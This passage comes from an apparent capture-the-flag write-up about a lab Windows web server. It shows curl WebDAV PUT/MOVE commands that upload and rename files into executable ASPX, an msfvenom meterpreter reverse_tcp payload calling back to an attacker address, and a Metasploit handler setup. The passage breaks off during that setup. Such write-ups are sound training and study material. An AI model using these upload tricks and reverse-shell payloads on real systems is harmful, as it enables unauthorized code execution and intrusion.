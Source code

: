     
    root@kali# curl -X MOVE -H 'Destination:http://10.10.10.15/0xdf.aspx' http://10.10.10.15/0xdf.txt
    

And it works:

![1551906682814](https://0xdfimages.gitlab.io/img/1551906682814.png)

![1551910243368](https://0xdfimages.gitlab.io/img/1551910243368.png)

### Meterpreter

I’ll do the same thing with a meterpreter payload. Create it:

    
    
    root@kali# msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.14 LPORT=443 -f aspx > met.aspx
    [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    [-] No arch selected, selecting arch: x86 from the payload
    No encoder or badchars specified, outputting raw payload
    Payload size: 341 bytes
    Final size of aspx file: 2797 bytes
    

Upload:

    
    
    root@kali# curl -X PUT http://10.10.10.15/met.txt -d @met.aspx 
    root@kali# curl -X MOVE -H 'Destination: http://10.10.10.15/met.aspx' http://10.10.10.15/met.txt
    

Start Metasploit:

    
    
    msf5 > use exploit/multi/handler 
    msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
    payload => windows/meterpreter/reverse_tcp
    msf5 exploit(multi/handler) > set LHOST tun0
    LHOST => tun0
    msf5 exploit(multi/handler) > set lport 443
    lport => 443
    msf5 exploit(multi/handler) > options
    
    Module options (exploit/multi/handler):
    
       Name  Current Setting  Required  Description
       ----  ---------------  --------  -----------
    
    
    Payload options (windows/meterpreter/reverse_tcp):
    
       Name      Current Setting  Required  Description
       ----      ---------------  --------  -----------
       EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
       LHOST     tun0             yes       The listen address (an interface may be specified)
       LPORT     443              yes       The listen port
    
    